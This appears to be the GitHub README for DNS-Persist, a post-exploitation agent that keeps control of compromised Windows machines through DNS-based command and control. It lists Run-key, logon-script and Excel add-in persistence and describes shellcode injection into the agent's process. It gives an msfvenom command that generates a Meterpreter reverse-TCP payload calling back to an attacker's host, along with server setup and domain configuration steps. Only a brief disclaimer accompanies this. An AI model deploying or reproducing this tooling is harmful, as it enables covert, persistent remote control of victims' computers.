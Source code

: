 # DNS-Persist
DNS-Persist is a post-exploitation agent which uses DNS for command and control. The server-side code is in Python and the agent is coded in C++. This is the first version, more features and improvements will be made in the future.

## Getting Started
### Author
0x09AL - https://twitter.com/0x09al
### Disclaimer
DO NOT USE THIS SOFTWARE FOR ILLEGALL PURPOSES.

THE AUTHOR DOES NOT KEEP ANY RESPONSIBILITY FOR ANY MISUSE OF THE CODE PROVIDED HERE.

## Did I reinvent the wheel ?
There is a lot of great work on DNS C2 but I created this software to be more focused on the persistence part. I'm no expert in C++ and this is my first "real program" in C++ (so expect some cringe worthy code). 

Suggestions about features and improvements are open.

## Architecture

There are two main parts:
1. DNS server
2. Agent

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-5.png "Architecture")

## Features
### Persistence mechanisms
This version has only 3 persistence mechanisms. More will be added later.
1. LogonScript persistence.
2. RunKey persistence.
3. Excel Addin persistence.

### Shellcode Injection
This version supports injection of 32-bit shellcode. The shellcode gets executed in a new thread in the same process, so crashing shellcode or invalid one will also crash the agent. Avoid NULL bytes on the shellcode.

#### Shellcode generation example
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00" -f hex -o /tmp/shellcode.hex
```

## TODO LIST
1. Add encryption.  **This version does not have any encryption so take your own risks when using it.**
2. Add more persistence mechanisms.
3. Agent in different programming languages.

## Installation & Usage
### Server side
```
pip install dnslib
git clone https://github.com/0x09AL/DNS-Persist
python server.py
```
By default a DNS server on port 53 will be started. You can change that on the server.py file.

### Agent
I used Visual Studio 2010 to code the agent so importing and compiling it should be fairly easy.

Keep in mind to change the DOMAIN_NAME variable in Declarations.h, to match your domain name.

The domain nameservers should point to the DNS-Persist IP address.


```
#define DOMAIN_NAME "example.com"
```

## Screenshots

1. Picture-1

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-1.png "Picture-1")

2. Picture-2

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-2.png "Picture-2")

3. Picture-3

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-3.png "Picture-3")

4. Picture-4

![alt text](https://raw.githubusercontent.com/0x09AL/DNS-Persist/master/images/Picture-4.png "Picture-4")



